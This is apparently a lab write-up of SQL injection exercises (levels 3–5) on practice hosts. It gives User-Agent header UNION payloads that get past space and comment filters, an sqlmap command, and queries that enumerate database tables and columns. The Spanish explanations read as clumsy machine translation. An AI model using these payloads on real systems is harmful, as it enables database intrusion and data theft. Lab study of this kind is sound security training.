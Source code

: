 ### SQLi 3

Los espacios están filtrados.

PoC:

```bash
GET / HTTP/1.1
Host: 3.sqli.labs
User-Agent: '/**/UNION/**/SELECT/**/@@version;#

# SQLMap Automation:
sqlmap -u 'http://3.sqli.labs/' -p user-agent --random-agent --technique=U --tamper=space2comment --suffix=';#' --union-char=els --banner
```

### SQLi 4

Comentarios no más largos trabajo.

PoC:

```bash
GET / HTTP/1.1
Host: 4.sqli.labs
User-Agent: 'UNION(select('PoC String'));#


# We cannot easily automate this task, as sqlmap should balance the parentesis.
# To exploit by hand you have to first find the tables in the current database:


GET / HTTP/1.1
Host: 4.sqli.labs
User-Agent: 'union(SELECT(group_concat(table_name))FROM(information_schema.columns)where(table_schema=database()));#

Then you can enumarate the columns:

GET / HTTP/1.1
Host: 4.sqli.labs
User-Agent: 'union(SELECT(group_concat(column_name))FROM(information_schema.columns)where(table_name='secretcustomers'));#
```

### SQLi 5

Esto es similar a SQLi 4, pero el desarrollador usó dobles-cuotas alrededor de las cuerdas.

PoC:

```bash
GET / HTTP/1.1
Host: 5.sqli.labs
User-Agent: "UNION(select('PoC String'));#

# To exploit by hand you have again to find the tables in the current database:

GET / HTTP/1.1
Host: 5.sqli.labs
User-Agent: "union(SELECT(group_concat(table_name))FROM(information_schema.columns)where(table_schema=database()));#
```
